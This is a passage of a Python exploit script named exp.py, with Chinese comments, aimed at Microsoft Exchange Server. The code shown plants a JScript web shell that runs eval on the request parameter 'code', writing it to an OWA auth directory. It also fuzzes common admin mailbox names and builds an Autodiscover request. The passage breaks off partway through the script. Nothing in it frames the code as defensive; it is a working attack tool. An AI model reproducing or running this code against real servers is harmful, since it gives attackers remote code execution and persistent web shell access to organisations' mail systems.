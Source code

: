 ```python
# -*- coding: utf-8 -*-
import requests
from urllib3.exceptions import InsecureRequestWarning
import random
import string
import argparse
import sys
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

fuzz_email = ['administrator', 'webmaste', 'support', 'sales', 'contact', 'admin', 'test',
              'test2', 'test01', 'test1', 'guest', 'sysadmin', 'info', 'noreply', 'log', 'no-reply']

proxies = {}
user_agent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36"

shell_path = "Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\owa\\auth\\test11.aspx"
shell_absolute_path = "\\\\127.0.0.1\\c$\\%s" % shell_path
# webshell-马子内容
shell_content = '<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["code"],"unsafe");}</script>'

final_shell = ""

def id_generator(size=6, chars=string.ascii_lowercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))

if __name__=="__main__":
    parser = argparse.ArgumentParser(
        description='Example: python exp.py -u 127.0.0.1 -user administrator -suffix @ex.com\n如果不清楚用户名，可不填写-user参数，将自动Fuzz用户名。')
    parser.add_argument('-u', type=str,
                        help='target')
    parser.add_argument('-user',
                        help='exist email', default='')
    parser.add_argument('-suffix',
                        help='email suffix')
    args = parser.parse_args()
    target = args.u
    suffix = args.suffix
    if suffix == "":
        print("请输入suffix")

    exist_email = args.user
    if exist_email:
        fuzz_email.insert(0, exist_email)
    random_name = id_generator(4) + ".js"
    print("目标 Exchange Server: " + target)

    for i in fuzz_email:
        new_email = i+suffix
        autoDiscoverBody = """<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>%s</EMailAddress> <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
""" % new_email
        # print("get FQDN")
        FQDN = "EXCHANGE01"
```